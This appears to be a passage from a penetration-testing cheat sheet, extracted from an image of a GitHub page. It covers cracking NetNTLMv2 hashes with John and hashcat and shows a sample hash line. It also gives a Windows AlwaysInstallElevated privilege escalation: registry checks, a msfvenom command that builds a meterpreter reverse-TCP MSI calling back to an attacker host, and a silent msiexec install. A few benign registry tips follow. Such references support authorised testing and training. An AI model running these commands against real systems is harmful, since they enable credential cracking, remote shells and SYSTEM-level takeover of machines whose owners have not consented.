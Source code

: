 ```c
admin::N46iSNekpT:08ca45b7d7ea58ee:88dcbe4446168966a153a0064958dac6:5c7830315c7830310000000000000b45c67103d07d7b95acd12ffa11230e0000000052920b85f78d013c31cdb3b92f5d765c783030
```

**Algorithm**

```c
SC = 8-byte server challenge, random
CC = 8-byte client challenge, random
CC* = (X, time, CC2, domain name)
v2-Hash = HMAC-MD5(NT-Hash, user name, domain name)
LMv2 = HMAC-MD5(v2-Hash, SC, CC)
NTv2 = HMAC-MD5(v2-Hash, SC, CC*)
response = LMv2 | CC | NTv2 | CC*
```

**Cracking**

```c
$ john --format=netntlmv2 <FILE>
$ hashcat -m 5600 -a 3 <FILE>
```

#### Privileges and Permissions

**AlwaysInstallElevated**

```c
C:\> reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
C:\> reg query HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

```c
$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<LHOST> lport=<LPORT> –f  msi > <FILE>.msi
```

```c
C:\> msiexec /quiet /qn /i <FILE>.msi
```

#### Registry Handling

**Enable Colored Output**

```c
C:\> reg add HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```

Then open a new Terminal Window.

**Check for Auto Run Programs**

```c
C:\> reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

**Get Registry Key Information**
